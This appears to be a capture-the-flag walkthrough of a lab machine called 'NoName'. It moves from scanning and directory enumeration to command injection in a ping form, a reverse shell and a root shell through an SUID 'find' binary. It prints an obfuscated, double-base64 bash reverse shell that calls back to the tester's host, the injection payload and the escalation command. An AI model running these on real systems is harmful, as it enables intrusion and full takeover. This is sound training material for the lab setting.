 # NoName

## Nmap

```
sudo nmap 192.168.64.15 -p- -sS -sV                               

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Checking out the target address shows we land on a page headed 'Fake Admin Area'. This page has a query box. I was unable to get any output from this or perform any command injection.

![/index.php](<../../../.gitbook/assets/image (1355).png>)

Further enumeration shows the /admin page being valid. This presents that page below.

![/admin](<../../../.gitbook/assets/image (1356).png>)

Nothing interesting here but we do have something in the page source.

![/admin](<../../../.gitbook/assets/image (1357).png>)

So far nowhere for this to be used but we can take a note of this. I decided from here to run some more specific enumeration against the target. Running `dirsearch.py` to append .txt and .php to end of a wordlist I was able to identify the /superadmin.php webpage.

```
python3 dirsearch.py -u http://192.168.64.15/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -t 75 --full-url --suffix=.txt,.php 
```

![](<../../../.gitbook/assets/image (1358) (1).png>)

So far this looks the same as the other page almost but we can actually test to see if the ping function works.

![/superadmin.php](<../../../.gitbook/assets/image (1359).png>)

Running `tcpdump` on our attacking machine to listen in on the interface tun0 for ICMP packets we can ping our attacking machine and can confirm if we take receipt of ICMP packets.

Start `tcpdump`:

```
sudo tcpdump -i tun0 icmp
```

Then after pinging our attacking machine from the web interface we see results which show ping is working.

![](<../../../.gitbook/assets/image (1360).png>)

Ideally we need to perform some form of command injection. Testing with the interface shows we need a IP at the begging of the command regardless. The linked GitHub has a large amount of command injection techniques to try: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

After some testing I found the following to work:

```
<IP> | <Command>
```

Switching over to `Burpsuite` we can see the value `192.168.49.79 | id` was sent as a query and returned valid results in the response.

![](<../../../.gitbook/assets/image (1361).png>)

From here I ran the following command in a terminal to generate double base64 encoded output.

```
echo "echo $(echo 'bash -i >& /dev/tcp/192.168.49.79/80 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'

#Output

echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqYzVMemd3SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

Then encoded the output combined with the ping part of the command with Burpsuite encoder.

![](<../../../.gitbook/assets/image (1362).png>)

Then submitted the URL encoded value as a parameter in `Burpsuite`.

![](<../../../.gitbook/assets/image (1363).png>)

Resulting in a reverse shell on our `netcat` listener.

![](<../../../.gitbook/assets/image (1365).png>)

From here I then transferred over `linpeas` which after running found the binary 'find' has the SUID bit set.

![](<../../../.gitbook/assets/image (1364).png>)

Searching [GTFOBins](https://gtfobins.github.io/gtfobins/find/) we find this can be used to spawn a root shell.

![](<../../../.gitbook/assets/image (1366).png>)

I then run the following command to gain a root shell.

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![](<../../../.gitbook/assets/image (1367).png>)
